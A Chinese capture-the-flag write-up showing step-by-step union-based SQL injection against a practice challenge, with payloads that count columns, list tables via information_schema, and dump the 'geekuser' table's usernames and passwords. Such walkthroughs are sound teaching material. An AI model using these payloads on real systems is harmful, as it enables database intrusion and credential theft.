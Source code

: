 爆字段数<br />`1';order by 4#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698910291949-9d34bc6b-f088-43dd-ae34-9cb3d98a6e41.png#averageHue=%231e1e1e&clientId=u93f0fa3e-5d73-4&from=paste&height=828&id=ue653c0b2&originHeight=1035&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=609461&status=done&style=none&taskId=u014c81be-9a36-4a0c-91c0-a33f4b83262&title=&width=1536)
> 报错
> 抛弃堆叠注入

<a name="PGFsP"></a>
#### **步入正题**
`1' order by 4#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698910383188-ae75dce9-d7c8-4dd4-b815-71fb6ba05d21.png#averageHue=%231e1e1d&clientId=u93f0fa3e-5d73-4&from=paste&height=830&id=u5a0a5819&originHeight=1037&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=600087&status=done&style=none&taskId=u58510ae9-b899-4664-bbc6-cd4a4a0d405&title=&width=1536)
> 成功，但是不存在第4列
> 同时验证了猜想不能使用堆叠注入

继续判断列数<br />`1' order by 3#`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698910478755-1e7e63c9-0354-45a3-abc2-2f6f535e0003.png#averageHue=%23221c1c&clientId=u93f0fa3e-5d73-4&from=paste&height=826&id=u0c2aade0&originHeight=1033&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=605355&status=done&style=none&taskId=ue936570e-9310-42eb-9dbc-a98cbc98a60&title=&width=1536)
> 可知列数只有3列

爆数据库<br />使用联合查询<br />`1' union select 1,2,database()#`<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698910666459-6a3a6b11-fa82-4b48-ad00-31c05b76c161.png#averageHue=%231f1e1e&clientId=u93f0fa3e-5d73-4&from=paste&height=831&id=u731be2bc&originHeight=1039&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=617140&status=done&style=none&taskId=u91b4f4eb-e65b-471e-a60a-1c63c12e91d&title=&width=1536)<br />爆数据表<br />`1' union select 1,database(),group_concat(table_name) from information_schema.tables where table_schema=database()#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698911070730-12c0a4b1-543d-46c5-9f8b-3b8623ab9df2.png#averageHue=%231e1e1d&clientId=u93f0fa3e-5d73-4&from=paste&height=829&id=u7b0fd8e4&originHeight=1036&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=623639&status=done&style=none&taskId=udc09894c-f0b0-4554-92c7-b9b241f8f57&title=&width=1536)
> 爆出两个表
> 开始爆数据表的字段
> 按照先后顺序把，先爆第一个

爆geekuser数据表的字段<br />`1' union select 1,database(),group_concat(column_name) from information_schema.columns where table_name='geekuser'#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698911854728-50b4b69b-1a11-4896-b284-af320e648a7e.png#averageHue=%23201f1f&clientId=u93f0fa3e-5d73-4&from=paste&height=833&id=u295cb7ff&originHeight=1041&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=613173&status=done&style=none&taskId=udcf4212e-cce5-446d-8c80-c0856916610&title=&width=1536)
> 字段：id、username、password

爆geekuser数据表的所有内容<br />`1' union select 1,database(),group_concat(id,username,password) from geekuser#`<br />回显结果<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/36016220/1698912168291-6e041779-91e5-4a60-a71c-6234905cdde4.png#averageHue=%23201f1f&clientId=u93f0fa3e-5d73-4&from=paste&height=834&id=u67d2e3eb&originHeight=1042&originWidth=1920&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=618210&status=done&style=none&taskId=u69c75f31-d772-4757-b782-116847fb745&title=&width=1536)
> 无flag
